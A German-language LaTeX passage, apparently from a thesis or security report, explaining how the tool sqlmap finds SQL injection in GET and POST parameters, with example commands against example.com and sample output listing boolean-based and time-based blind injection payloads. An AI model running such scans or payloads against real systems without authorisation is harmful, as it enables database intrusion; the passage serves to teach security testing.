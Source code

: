 Zum Auffinden verwundbarer Request"=Parameter wurde das Python basierte Werkzeug \emph{sqlmap} ausgewählt. Es bietet verschiedene Kommandozeilenoptionen an, deren Verwendung an dieser Stelle kurz erläutert wird. Das frei verfügbare Tool kann von \url{http://sqlmap.org/} aus installiert werden.

\begin{listing}
\begin{verbatim}
> python sqlmap.py -u "http://www.example.com/app.php?id=1"
\end{verbatim}
\end{listing}

Mit dem Parameter \texttt{-u} wird die anzugreifende URL angegeben. Bereits dieses Argument genügt für eine erste Analyse: Standardmäßig wird ein \texttt{GET}"=Request verwendet und dabei versucht, alle in der URL enthaltenen Parameter anzugreifen. Hierbei setzt sqlmap verschiedene mögliche Payloads für die angegeben Parameter ein und überprüft anhand der Serverantwort, ob die SQL"=Injection erfolgreich war.

\begin{listing}
\begin{verbatim}
> python sqlmap.py -u "http://www.example.com/app.php" --data={username=&password=}
\end{verbatim}
\end{listing}

sqlmap ist ebenfalls in der Lage, \texttt{POST}"=Requests durchzuführen. Hierzu werden die Parameter mit dem Argument \texttt{--data} angegeben.


\begin{listing}
\begin{verbatim}
sqlmap identified the following injection point(s) with a total of 307 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
    Payload: uname=") OR NOT 7407=7407#&passwd=

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: uname=") OR SLEEP(5)#&passwd=
\end{verbatim}
\end{listing}

Findet sqlmap verwundbare Parameter, so werden diese zusammen mit dem genutzten Payload ausgegeben. Im obigen Beispiel war der Parameter \texttt{username} angreifbar, sqlmap liefert hierzu eine time-based und eine boolean-based SQL"=Injection.

